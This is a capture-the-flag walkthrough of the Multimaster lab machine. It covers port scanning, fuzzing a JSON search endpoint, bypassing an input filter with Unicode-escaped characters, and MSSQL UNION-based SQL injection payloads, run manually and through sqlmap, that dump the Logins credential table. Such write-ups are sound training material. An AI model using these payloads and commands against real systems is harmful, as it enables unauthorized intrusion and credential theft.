




---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Multimaster

## Recon

### Nmap

Let's start with a simple port-scan to see what is listening on the box (Figure 1) and then perform an agreesive (`-A`) scan on the ports found (Figure 2).




```bash
# simple port-scan
sudo nmap 10.10.10.179 -T4 -open -p- --min-rate=10000 -oA ./scans/initial_port-scan
# aggresive port-scan on the open ports
sudo nmap 10.10.10.179 -T4 -A -p $(cat ports) --min-rate=10000 -oA ./scans/aggresive_port-scan
```




```bash
# remove junk lines and rpc ports (49666+)
sudo nano scans/initial_port-scan.nmap
# extract port numbers and arrange them in a single comma-separated line
cat scans/initial_port-scan.nmap | cut -d'/' -f1 | tr '\n' ',' > ports
```



<figure><figcaption><p>Figure 1: Scanning the Multimaster machine.</p></figcaption></figure>

<figure><figcaption><p>Figure 2: Aggresive scan on the open ports.</p></figcaption></figure>

Some interesting things to note from Nmap's output:

1. There are services such as DNS, Kerberos, and LDAP that let us know that **this box is a DC**.
2. A **web server** is listening on port `80`.
3. Port `3389` is open, so **we can access the host via RDP**.
4. Port `5985` is also open, **we can jump into the box with WinRM** as well.
5. The FQDN is `MULTIMASTER.MEGACORP.LOCAL`.

Before moving enumerating the services, we should add the hostname, the domain, and the FQDN to our local DNS file:

```bash
$ grep multi /etc/hosts
10.10.10.179   multimaster megacorp.local multimaster.megacorp.local
```

We will start by enumerating the web server as it usually is the largest attack surface, and then move on to SMB and LDAP.&#x20;

### HTTP

The site seems static as nothing really works. The only interesting bit is the _Colleague Finder_ searh bar. Searching for an `a` returns everyone who has an `a` in the name (Figure 3).

<figure><figcaption><p>Figure 3: The Colleague Finder search bar.</p></figcaption></figure>

By intercepting the request with Burp, we can see that its sends a POST request to `/api/getColleagues` formatting our input as JSON (Figure 4).

<div align="center">

<figure><figcaption><p>Figure 4: The POST request with our input formatted as JSON data.</p></figcaption></figure>

</div>

Performing directory busting with [Ffuf](../../../tools/tools/web/fuff.md) results in, almost exclusively, [`403 Forbidden`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/403) responses (Figure 5), which suggests that some kind of filtering is happening either within the application itself or by a [WAF](../../../tools/tools/web/wafs.md). Introducing a 1 second delay between each request seems to still trigger the filters, so we will let our dirbusting efforts aside for now.


```bash
ffuf -u http://10.10.10.179/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -c -ic
```


<figure><figcaption><p>Figure 5: Dirbusting is prevented by a WAF.</p></figcaption></figure>

Scanning for [WAFs](../../../tools/tools/web/wafs.md), nothing is detected which suggests that the filtering happens within the application itself (Figure 6).

<figure><figcaption><p>Figure 6: Scanning for WAFs comes back empty-handed.</p></figcaption></figure>

## SQLi

### Manual

The only avenue to explore on the web server seems to be the _Colleague Finder_ search bar request_._ Playing around with common [SQLi](../../../tl-dr/tl-dr/web/sqli.md) detection payloads returns, again, a `403 Forbidden` response. For detecting an SQLi flaw, our initial goal is to try and induce some kind of server error which is [typically done](../../../tl-dr/tl-dr/web/sqli.md#detection) using special characters, which in our case seems to be filtered. What we could do, is fuzz the endpoint with special characters and look out what returns as `403 Forbidden` (Figure 6).&#x20;


```bash
ffuf -u http://10.10.10.179/api/getColleagues -X POST -d '{"name":"FUZZ}' -H 'Content-Type: application/json;charset=utf-8' -p 5 -t 1 -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -c -ic -mc 403
```


<table><thead><tr><th width="152">Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>-u</code>, <code>-w</code></td><td>Specify the URL and the wordlist.</td></tr><tr><td><code>-X</code>, <code>-d</code>, <code>-H</code></td><td>Specify the HTTP method, JSON data, and, following Fuff's <a href="https://github.com/ffuf/ffuf/wiki#request-body-data">documentation</a>, Content-Type header.</td></tr><tr><td><code>-c</code>, <code>-ic</code></td><td>Colorize output and ignore any comments within the wordlist file.</td></tr><tr><td><code>-p</code>, <code>-t</code></td><td>To deal with the WAF, we need to slow down the requests per second by introducing a delay among each and reducing the concurrency from 40 (default) to 1.</td></tr><tr><td><code>-mc</code></td><td>Matching only the status codes of interest.</td></tr></tbody></table>

<figure><figcaption><p>Figure 6: Adapting the Fuff command to the WAF and status code 500.</p></figcaption></figure>

The most common SQLi-detection method comes back: the `'` character. We are able to confirm this behaviour manually using Burp (Figure 7.1). If we closely inspect the request, we will notice that the `Content-Type` header includes the `charset=utf-8` string. [UTF-8](https://en.wikipedia.org/wiki/UTF-8) is an is an encoding system for Unicode, and this suggests that we might need to Unicode-escape our input in order to bypass the server filter. We can test this by escaping unicode characters using [CyberChef ](https://gchq.github.io/CyberChef/#recipe=Escape\_Unicode\_Characters\('%5C%5Cu',true,4,true\)\&input=Jw)or [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) (Figure 7.2) and see how the server responds back.

&#x20;

<figure><figcaption><p>Figure 7: Sending an ASCII (1) and a Unicode-escaped (2) payload results in different server responses.</p></figcaption></figure>

This seems to have worked! We have some information already about the database:

1. It is a Windows box, so the DBMS is probably MSSQL.
2. When we sent the `a` character, we got back 5 fields: `id`, `name`, `position`, `email`, and `src`. This means that this particular table has at least 5 columns.
3. All fields but `id` accept strings, thus, we can use any of them to exfiltrate data.

We can start enumerating the database by sending a payload to confirm the number of columns. If we send a query inlcuding 5 columns it comes back with data (Figure 8.1), whereas if we include 6 columns it results in an index error and comes back `null` (Figure 8.2).

```sql
a' UNION SELECT 1,2,3,4,5-- -
```

<figure><figcaption><p>Figure 8: Selecting 5 columns works (1), but adding more results in a NULL response (2).</p></figcaption></figure>

We can now start performing proper enumeration and find out:

1. What database(s) exist within the DBMS.
   * There is only 1 non-default database: `Hub_DB` (Figure 9.1).
2. What tables exist in the database of interest.
   * There are 2 tables: `Colleagues` and `Logins` (Figure 9.2).
3. What columns exists within the table of interest.
   * There are 3 columns on the `Login` table: `id`, `password`, and `username` (Figure 9.3).
4. What data is available with the table.
   * There are 17 users within the `Login` table (Figure 9.4).



```sql
a' UNION ALL SELECT 1,name,3,4,5 from master..sysdatabases-- -
```




```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM Hub_DB..sysobjects WHERE xtype = 'U'-- -
```





```sql
a' UNION ALL SELECT 1,name,3,4,5 FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'Logins')-- -
```




```sql
a' UNION ALL SELECT id,username,password,4,5 FROM Hub_DB..Logins-- -
```



<figure><figcaption><p>Figure 9: Enumerating databases (1), tables (2), columns (3), and dumping data (4).</p></figcaption></figure>

### Automated

We could also automate the process above by capturing the HTTP request from Burp to a file (Figure 10) and feeding it to [SQLMap](../../../tools/tools/web/sqlmap.md) (Figure 11). Notice, that we put an `*` symbol where we want SQLMap to inject the payload (the value of the `name` parameter) prior copying the request to a file.

<div align="center" data-full-width="true">

<figure><figcaption><p>Figure 10: Writing the HTTP request to a file.</p></figcaption></figure>

</div>


```bash
sqlmap -r getcolleagues.req --batch -v 1 --level=5 --risk=3 --delay=3 --tamper=charunicodeescape --dbms=mssql --os=Windows --technique=U --proxy=http://127.0.0.1:8080
```


<table><thead><tr><th width="341">Flag</th><th>Description</th></tr></thead><tbody><tr><td><code>-r</code>, <code>--batch</code>, <code>-v</code></td><td>Pass request file, choose the defaults in every prompt, set verbosity levels.</td></tr><tr><td><code>--level</code>, <code>--risk</code></td><td>Level and risks of test to perform.</td></tr><tr><td><code>--delay</code></td><td>Introduce a delay between each request to avoid getting blocked by the filter.</td></tr><tr><td><code>--tamper=charunicodeescape</code></td><td>Unicode-escape non-encoded payload characters.</td></tr><tr><td><code>--dbms</code>, <code>--os</code></td><td>Specify what we already know, the DBMS type and the operating system.</td></tr><tr><td><code>--technique</code></td><td>By default, SQLMap tests for everything which can take a lot of time. Since <code>UNION</code> is the most common SQLi, we can start with that.</td></tr><tr><td><code>--proxy</code></td><td>Send each request via proxy, so we can see what's happening in each request.</td></tr></tbody></table>

<figure><figcaption><p>Figure 11: SQLMap identidied the number of columns, the vulnerable parameter, and provided us with a (not unicode-escaped) payload.</p></figcaption></figure>

We can now do the same process we did manually by enumerating:

1. &#x20;Current database's name (Figure 12.1)
2. Tables (Figure 12.2)
3. Columns (Figure 12.3)
4. Dump data (Figure 12.4)&#x20;




```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB --tables
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --columns
```





```bash
sqlmap -r getcolleagues.req --current-db --batch --tamper=charunicodeescape -D Hub_DB -T Logins --dump
```




<figure><figcaption><p>Figure 12: Using SQLMap for enumerating the current database's name (1), its tables (2), the table's columns (3), and, finally, dumping the table's data.</p></figcaption></figure>

